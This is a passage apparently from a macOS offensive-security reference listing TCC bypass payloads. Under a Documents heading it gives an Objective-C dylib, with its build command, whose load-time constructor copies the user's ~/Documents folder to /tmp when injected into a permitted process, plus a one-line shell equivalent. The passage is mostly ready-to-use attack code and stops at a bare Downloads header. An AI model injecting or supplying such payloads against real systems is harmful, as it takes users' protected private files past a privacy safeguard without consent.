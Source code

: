 ### Documents

* **Entitlement**: None
* **TCC**: `kTCCServiceSystemPolicyDocumentsFolder`

{% tabs %}
{% tab title="ObjetiveC" %}
Copy `$HOME/Documents` to `/tmp/documents`.

```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{  
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

    NSFileManager *fileManager = [NSFileManager defaultManager];
    NSError *error = nil;    

    // Get the path to the user's Pictures folder
    NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Documents"];
    NSString *tmpPhotosPath = @"/tmp/documents";

    // Copy the contents recursively
    if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
        NSLog(@"Error copying items: %@", error);
    }

    NSLog(@"Copy completed successfully.", error);

    fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
Copy `$HOME/`Documents to `/tmp/documents`.

```bash
cp -r "$HOME/Documents" "/tmp/documents"
```
{% endtab %}
{% endtabs %}

### Downloads

* **Entitlement**: None
* **TCC**: `kTCCServiceSystemPolicyDownloadsFolder`
